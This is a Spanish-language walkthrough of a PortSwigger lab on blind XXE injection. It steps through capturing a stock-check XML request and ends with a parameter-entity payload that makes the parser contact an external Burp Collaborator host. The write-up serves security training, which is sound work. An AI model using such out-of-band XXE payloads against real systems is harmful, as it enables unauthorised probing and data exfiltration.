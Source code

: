 ```yaml
---
title: XXE Injection Lab 4
date: 2024-11-27 12:26:00 +0800
lang: es-ES
author: Justice-Reaper
categories:
  - Portswigger
  - XXE Injection
tags:
  - XXE Injection
  - Blind XXE with out-of-band interaction via XML parameter entities
image:
  path: /assets/img/Portswigger/Portswigger.png
---
```


## Skills

- Blind XXE with out-of-band interaction via XML parameter entities

## Certificaciones

- eWPT
- eWPTXv2
- OSWE
- BSCP
  
## Descripción

Este laboratorio tiene una función de `Check stock` que analiza la entrada XML, pero `no muestra valores inesperados` y `bloquea` las `solicitudes` que contienen `entidades externas regulares`. Para resolver el laboratorio, debemos utilizar una `entidad` de `parámetro` para que el `analizador XML` realice una `búsqueda DNS` y una `solicitud HTTP` a `Burp Collaborator`

---

## Resolución

Al `acceder` a la `web` nos sale esto

![](/assets/img/XXE-Injection-Lab-4/image_1.png)

Si pulsamos en `View details` veremos la `descripción` del `artículo`

![](/assets/img/XXE-Injection-Lab-4/image_2.png)

Si pulsamos en `Check stock` y `capturamos` la `petición` con `Burpsuite` vemos que se está tramitando un `XML`

![](/assets/img/XXE-Injection-Lab-4/image_3.png)

Vamos a insertar un `DTD (Document Type Definition)` y a `comprobar` si es `vulnerable` a `XXE`

```
<?xml version="1.0" encoding="UTF-8"?>
	<!DOCTYPE foo [<!ENTITY xxe "Doe"> ]>
	<stockCheck>
		<productId>
			&xxe;
		</productId>
		<storeId>
			1
		</storeId>
	</stockCheck>
```

La da un `error` al `enviar` la `petición`, esto se debe a que `no` podemos `llamar` a una `entidad` desde los campos existentes, en este caso la `entidad` declarada es `xxe`

![](/assets/img/XXE-Injection-Lab-4/image_4.png)

Nos vamos a `Burpsuite Collaborator` y pulsamos en `Copy to clipboard`, este dominio obtenido lo vamos a usar para construir este `payload`, el `%` sirve para `llamar` a la `entidad` desde el `DTD` creado

```
<?xml version="1.0" encoding="UTF-8"?>
	<!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "http://lqfvrsm0rxqxty3gudtykjjoifo6cx0m.oastify.com"> %xxe; ]>
	<stockCheck>
		<productId>
			1
		</productId>
		<storeId>
			1
		</storeId>
	</stockCheck>
```

Nos vamos a `Burpsuite Collaborator` y observamos que hemos `obtenido respuesta`

![](/assets/img/XXE-Injection-Lab-4/image_5.png)

